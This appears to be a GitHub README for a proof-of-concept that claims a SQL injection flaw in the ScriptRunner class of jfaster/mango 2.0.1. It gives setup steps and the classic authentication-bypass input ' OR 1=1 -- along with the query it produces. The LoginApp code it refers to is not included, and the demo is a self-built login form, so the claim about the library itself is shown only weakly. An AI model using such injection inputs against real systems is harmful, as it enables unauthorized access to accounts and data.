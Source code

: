 # 🚨 CVE Proof-of-Concept – SQL Injection in `ScriptRunner` (jfaster/mango)

This repository demonstrates a **SQL Injection vulnerability** in the `ScriptRunner` class of the [jfaster/mango](https://github.com/jfaster/mango) project. Using a Java Swing demo application (`LoginApp`), this PoC shows how an attacker can inject SQL, bypass authentication, and extract database content.

---

## 📦 Affected Product

- **Vendor**: jfaster  
- **Product**: mango  
- **Version**: 2.0.1  
- **Component**: `org.jfaster.mango.util.ScriptRunner`  
- **Type**: SQL Injection  
- **Impact**: Authentication Bypass, Information Disclosure, Arbitrary Query Execution  

---

## 🧪 Step-by-Step Exploit Guide

### ✅ Step 1 – Clone the Repository
```bash
git clone https://github.com/jfaster/mango.git
cd mango
```

### 🖥️ Step 2 – Install and Setup Eclipse
- Download [Eclipse IDE for Java Developers](https://www.eclipse.org/downloads/)
- Install Eclipse and open it.
- Click `File → Import → Maven → Existing Maven Projects`
- Select the cloned `mango` folder and click `Finish`

### 📁 Step 3 – Add the Vulnerable Demo (`LoginApp`)
- In Eclipse project tree, open `mango/src/test/java/org/jfaster/mango/util`
- Right-click → `New → Class`
- Name it `LoginApp`
- Paste provided `LoginApp.java` code below and save

### ▶️ Step 4 – Run the Demo
- Right-click `LoginApp.java` → `Run As → Java Application`
- A Swing login window titled **Login Form (SQL Injection Test)** will appear

### 🧨 Test Inputs

#### ✅ Valid Login
- Username: `admin`
- Password: `admin123`

#### ❌ Invalid Login
- Username: `user1`
- Password: `wrong`

#### 🔥 SQL Injection Bypass
- Username: `' OR 1=1 --`
- Password: `[anything]`

This generates:
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```

The `--` disables password checking, successfully bypassing authentication.
**Need a PDF version or zipped project structure?**

- Contact for additional support.


